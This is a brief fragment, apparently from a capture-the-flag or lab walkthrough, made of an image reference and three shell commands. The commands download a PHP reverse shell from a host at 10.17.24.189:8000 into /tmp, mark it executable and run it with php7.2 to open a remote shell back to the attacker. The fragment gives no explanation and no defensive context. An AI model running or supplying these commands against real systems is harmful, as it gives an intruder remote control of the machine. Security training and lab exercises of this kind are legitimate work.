 
`cd /tmp && wget http://10.17.24.189:8000/php-reverse-shell.php`

`chmod +x /tmp/php-reverse-shell.php`

`php7.2 /tmp/php-reverse-shell.php`
